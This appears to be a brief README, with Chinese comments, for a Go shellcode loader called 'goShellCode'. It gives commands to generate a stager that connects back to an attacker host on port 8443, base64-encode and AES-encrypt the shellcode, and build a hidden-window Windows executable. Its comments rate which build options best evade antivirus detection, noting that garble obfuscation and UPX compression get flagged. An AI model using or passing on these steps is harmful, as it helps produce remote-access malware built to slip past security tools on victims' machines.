 # goShellCode

//生成shellcode

generate stager --lhost HOST --lport 8443 --arch amd64 --format raw --save ./raw_shellcode
base64 -w 0 -i raw_shellcode > stager.bs64
go run aes.go

//免杀效果拉跨

garble -literals -tiny -seed=random build -ldflags="-w -s -H windowsgui" ./main.go

//免杀效果好 

go build -ldflags="-w -s -H windowsgui" ./main.go

//压缩,upx压缩之后容易被查杀

upx.exe -9 -q -o zip.exe main.exe


## build.bat
